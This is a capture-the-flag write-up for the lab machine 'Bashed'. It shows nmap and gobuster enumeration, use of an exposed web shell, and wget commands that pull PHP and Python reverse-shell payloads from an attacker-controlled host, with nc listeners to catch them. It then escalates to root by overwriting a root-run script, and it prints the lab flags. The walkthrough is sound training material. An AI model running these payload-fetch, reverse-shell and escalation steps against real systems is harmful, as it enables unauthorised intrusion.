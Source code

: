 ## IP

> 10.10.10.68

## nmap scan

```
nmap -T4 -A 10.10.10.68 -Pn
```

```a
Nmap scan report for 10.10.10.68
Host is up (0.11s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:

Network Distance: 2 hops

TRACEROUTE (using port 3306/tcp)
HOP RTT      ADDRESS
1   69.34 ms 10.10.16.1
2   35.19 ms 10.10.10.68

```

## Open Ports

> 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

HTTP

## HTTP

http://10.10.10.68/

```
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirb/common.txt
```

>/.hta                 (Status: 403) [Size: 290]
/.htpasswd            (Status: 403) [Size: 295]
/.htaccess            (Status: 403) [Size: 295]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/index.html           (Status: 200) [Size: 7743]                                
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]    
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]   
/server-status        (Status: 403) [Size: 299]                                 
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]

After doing dirbuster we found the /dev folder and inside phpbash.php

We have a shell(?)

# Post Exploitation

### Getting user.txt

```
cd /home/arrexel
cat user.txt
```

> 2c281f318555dbc1b856957c7147bfc1

## Becoming root

```sudo su```

Nope

```sudo -l```

> User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL 

We can run commands as scriptmanager user with no password

```history```

Nope

Lets try to upload a payload

```cd /var/www/html/uploads```

Lets create a reverse shell

Download (http://pentestmonkey.net/tools/web-shells/php-reverse-shell) The payload from here and change the ip to your tun0 and the port to whatever you want

Create a python server and host the shell 

```
python -m SimpleHTTPServer [Port]
```

Get the payload on the online shell
```
wget http://[YOUR IP]/rev.php
```

Close the server and open a listener

```nc -nlvp [SAME PORT AS PAYLOAD]```

open http://10.10.10.68/uploads/rev.php

Now we have a shell on our computer

Lets try to improve the shell (https://netsec.ws/?p=337)

```python -c 'import pty; pty.spawn("/bin/bash")'``` 
 
 Like that we improved it!
 
 Lets connect into scriptmanager
 
 ```sudo su scriptmanager```
 
 We could not without a password
 
 Lets try another way
 
 ```sudo -u scriptmanager /bin/bash```
 
 Like that worked! Now we are scriptmanager 
 
 ```sudo -l```
 
 Nope
 
 ```history```
 
 Nope

```ls -la```

There is a scripts folder, lets check it

Inside scripts we see test.py and test.txt, we can modify test.py and we can notice that test.txt is owned by root

tes.txt updates every minute according to the script in test.py, so lets change it for a python reverse shell (https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

Lets get the shell instead of the normal test.py

Create a file in your computer with the python reverse shell and call it test.py

Set up a python host with the file 


```
python -m SimpleHTTPServer [Port]
```

Get the payload on the shell
```
rm test.py
wget http://[YOUR IP]/test.py
```

Set up a listener 

```nc -nlvp [SAME PORT AS PAYLOAD]```

We wait..... no we are root!!!

## Getting root.txt
```
cd /root
cat root.txt
```

>cc4f0afe3a1026d402ba10329674a8e2